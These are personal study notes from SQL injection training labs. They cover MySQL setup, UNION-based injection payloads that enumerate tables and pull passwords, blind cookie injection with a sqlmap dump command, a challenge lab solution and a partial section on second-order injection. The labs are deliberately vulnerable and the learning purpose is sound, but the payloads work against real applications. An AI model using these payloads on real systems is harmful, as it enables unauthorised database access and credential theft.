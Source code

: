 - Infamous and tricky
- easy money if found, but typically isn't found these days
# If you want to set up your own machine
- Start mysql
	- `sudo systmctrl stat mysql`
- login to mysql
	- `sudo mysql`
- Create DB and tables:
```
CREATE DATABASE sqldemo;
use sqldemo;
CREATE TABLE users(
	username varchar(255)
	password varchar(255)
	age int,
	PRIMARY KEY (username)
);
```
- Insert data into users table:
```
INSERT INTO users (username, password, age)
VALUES ("jeremy", "letmein", 30);

INSERT INTO users (username, password, age)
VALUES ("jessamy", "kittems", 31);
```
# The actual starter
- things are passed into a table and then data is pulled based on the argument
- basically SQL injections are just modifying queries
- Need some practice or a refresher?
	- https://www.w3schools.com/sql/
# Lab time
- we have a search bar that searches usernames
	- ![[Kali-Linux-2022.2-vmware-amd64_-_VMware_Workstatio240314_214809.png]]
- Put in a username, get information
	- ![[Kali-Linux-2022.2-vmware-amd64_-_VMware_Workstatio240314_215652.png]]
- but if we change what our query is, we can get all the users
	- `' or 1=1#` gives us this:
	- ![[Kali-Linux-2022.2-vmware-amd64_-_VMware_Workstatio240314_215805.png]]
- So what's happening is the search query has a preset query, and we can abuse the input of that to get everything from that table
	- likely a `select 'email' from 'users' where 'username = input'`
	- so we end what it's looking for with a `'`
	- and then put down something that always results in true
		- 1 will always equal 1
	- then we terminate the query with `#`
		- can also use `-- -` because this is mysql, but there are other terminators for other database programs
		- will get a cheatsheet later
- But what if we want...more
	- we're going to be using the `UNION` function of SQL
		- from [W3 Schools](https://www.w3schools.com/sql/sql_union.asp)
		- `The SQL UNION operator is used to combine the result-sets of two or more SELECT statements. It selects only distinct values by default and removes any duplicate rows between the statements.`
	- so with that we're going to select something from password column
	- the only issue is we can only select as many columns as from the original query
		- also, we need to make sure that we're querying the correct type of data
			- if we try to query a string where an integer is present, it won't work
			- fix this using `null(int)`
		- so let's find out how many columns
		- `jeremy' union select null#` will get us started
			- if this doesn't work, add another null until we get some feedback
		- success, we got something with three `null`
			- `jeremy' union select null,null,null#`
			- ![[Kali-Linux-2022.2-vmware-amd64_-_VMware_Workstatio240314_222018.png]]
			- so it's selecting 3 columns and probably only printing 2
	- Now we can cook
		- `jeremy' union select null,null,version()#` will give us a version of the database.
			- ![[Kali-Linux-2022.2-vmware-amd64_-_VMware_Workstatio240314_222252.png]]
		- `jeremy' union select null,null,table_name from information_schema.tables#` will spit out all the tables that we can select from
			- holy mother
			- ![[Kali-Linux-2022.2-vmware-amd64_-_VMware_Workstatio240314_222437.png]]
		- `jeremy' union select null,null,column_name from information_schema.columns#` will spit out all of the columns we can select from.
		- so now we have tables and columns, so we can select jeremy's password
			- `jeremy' union select null,null,password from injection0x01#`
				- the password column from the table "injection0x01" which has all the information for this lab.
			- ![[Kali-Linux-2022.2-vmware-amd64_-_VMware_Workstatio240314_223953.png]]
				- bingo bango
# [SQL Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# Blind SQL injection attacks
- this time we have a username and password field
	- also valid credentials
	- entering the valid credentials gets us to our dashboard
- Testing out the User/PW field reveals that we can't inject in that field
	- checking content length is a good indicator of when we get something successful and when we get something unsuccessful
	- also is a search feature in burp for responses that we can double check
- we do have a cookie that is set however
	- checking content length and trying injections on that will help
- we got injection in the cookie!
	- the only way we know is because it changes the behavior of the website, it does not present information
- Because all this does is change the behavior of the website, this is a Blind SQLi
	- going to have to input queries that spit out true/false data and then we can start extracting data from it that way
	- 20 questions but from a database
- because of this guessing game, we're gonna use sqlmap
	- for fuzzing reasons
- You're gonna need to know [substrings](https://www.w3schools.com/sql/func_sqlserver_substring.asp) ^substring
	- "The SUBSTRING() function extracts some characters from a string."
	- we choose a character, a length and the position of that character
	- so from there we can start building out the password.
- Doing this manually takes a long time
	- so we send it to intruder
	- make the part we guess the attack itself
- Let's do this in sqlmap ^sqlmap
	- take the bare request and put it into sqlmap
	- `sqlmap -r request.txt --level=2 --dump -T injection0x02`
		- `sqlmap` name of the program
		- `-r` the specified request, which is `request.txt`
		- `--level=2` the level of the test we want to perform
			- [more details](https://github.com/sqlmapproject/sqlmap/wiki/Usage#level)
			- The higher the level, the more of the request it will test
			- we need level 2 to test cookies, which is our point of injection
		- `--dump` dumps all the tables from the database
		- `-T` the tables to enumerate
		- `injection0x02` from this database
	- answer a couple of questions about how to break down the request and we'll get a database
	- ![[240315_2249Kali-Linux-2022.2-vmware-amd64_-_VMware_Workstatio.png]]
	- Success! `jessamy`'s password is `ZWFzdGVyZWdn`
		- note that while we did get the first character correct in burp, `z`, it was not the correct case
# Challenge Lab
- we got a website that has various AI generated products on it
- a search bar will take us to the specific page for that product
	- it takes only exact matches, probably where we can inject
	- I called it, an SQLi test shows it's good
- union search
	- took 4 nulls
	- using `version()` we get the version of 8.0.35
		- ![[240315_2315Kali-Linux-2022.2-vmware-amd64_-_VMware_Workstatio.png]]
	- trying a specified query doesn't get us anywhere
- different encoding?
	- HTML doesn't work
	- URL doesn't work 
		- I thought this one would because the query is in URL
- Walkthough
	- basically everything I did until 2:52
- I FOUND WHAT I DID WRONG HOLY SHIT
	- the table name is "injection0x03_users"
	- `' union select null,null,null,password from injection0x03_users#`
	- we get the password "onigirigadaisuki"
# Second order SQLi
- where your payload is not executed until later
- example is creating a user
	- we can inject data into this user's UN/PW and have that executed later
	- likely the UN, because that shows
- [[SQL Injection#^sqlmap|sqlmap]] has a second order flag that you can use, check it out from 